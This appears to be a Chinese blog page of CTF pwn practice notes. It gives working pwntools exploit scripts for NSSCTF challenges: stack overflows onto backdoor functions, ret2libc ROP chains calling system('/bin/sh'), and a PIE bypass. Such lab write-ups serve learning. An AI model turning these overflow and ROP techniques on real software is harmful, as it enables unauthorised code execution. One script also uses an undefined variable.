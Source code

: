 ```yaml
---
title: 'NSSCTF_pwn_刷题笔记page'
date: 2024-11-11 13:00:00 +0800
categories: [合集]
tags: [ctf,pwn]
---
```

# NSSCTF_pwn_刷题笔记page(1)

### [SWPUCTF 2021 新生赛]gift_pwn

```python
from pwn import *
io = remote('node4.anna.nssctf.cn',28991)
padding = 16+8
shell = 0x4005B6

payload = b'A'*padding+p64(shell)
io.sendline(payload)

io.interactive()
```

### [SWPUCTF 2021 新生赛]whitegive_pwn

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28982)
#io = gdb.debug('./附件')
elf = ELF('./附件')
padding = 16+8
pop_rdi = 0x0000000000400763

payload = b'A'*padding + p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])

io.sendline(payload)

puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

base_offset = puts_addr - 0x06f6a0
sys = 0x0453a0+base_offset
bin_sh = 0x18ce57+base_offset


payload1 = b'A'*padding+p64(pop_rdi)+p64(bin_sh)+p64(sys)
io.sendline(payload1)

io.interactive()
```

libc版本要另外搜索

###[CISCN 2019华北]PWN1

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 44
payload =b'A'*padding+p64(0x41348000)
io.sendlineafter(b'number.',payload)
io.interactive()
```

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 56
payload =b'A'*padding+p64(0x4006be)
io.sendlineafter(b'number.',payload)
io.interactive()
```

### [NISACTF 2022]ReorPwn?

```shell
hs/nib/
```

### [BJDCTF 2020]babystack2.0

```python
from pwn import *
context.log_level = 'debug'
#io = process('./pwn')
#io = gdb.debug('./pwn')
io = remote('node4.anna.nssctf.cn',28485)
padding = 12+8+4
payload = b'A'*padding+p64(0x400726)

io.sendlineafter('name:\n',b'-1')

io.sendlineafter('name?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [HNCTF 2022 Week1]easync

`nc`进去找,格式为nssctf{}

### [BJDCTF 2020]babystack

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ret2text')
#io = gdb.debug('./ret2text')
io = remote('node4.anna.nssctf.cn',28587)
padding = 12+8+4
payload = b'A'*padding+p64(0x4006e6)

io.sendlineafter('name:\n',b'100')

io.sendlineafter('?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [SWPUCTF 2022 新生赛]Does your nc work？

`nc`进去找

### [NISACTF 2022]ezstack

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28318)
elf = ELF('./pwn')
padding = 72+4

payload = b'A'*padding + p32(0x8048512)+p32(0x804A024)

io.sendline(payload)
io.interactive()
```

`32`位程序调用函数方法与`64`位不同

### [watevrCTF 2019]Voting Machine 1

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28007)
payload = b'A'*padding + p64(0x400807)

io.sendline(payload)
io.recvall()
io.interactive()
```

有后门函数...

### [NISACTF 2022]ezpie

```python
from pwn import *

#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28323)
padding = 44

io.recvuntil(b'gift!\n')
main_addr = eval(io.recvline().decode())
base_offset = main_addr - 0x770
shell_addr = base_offset+0x80F

payload = b'A'*padding +p32(shell_addr)

io.sendline(payload)
io.interactive()
```

主要是`pie`机制,和泄露`lib`差不多的思路

### [HGAME 2023 week1]test_nc

```shell
cat flag
```

### [GFCTF 2021]where_is_shell

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`,`tips`函数中提供了相应的机器码,又一个小知识点

### [HNCTF 2022 Week1]easyoverflow

```shell
1111111111111111111111111111111111111111111111111111
```

参数覆盖,溢出`v4`覆盖`v5`
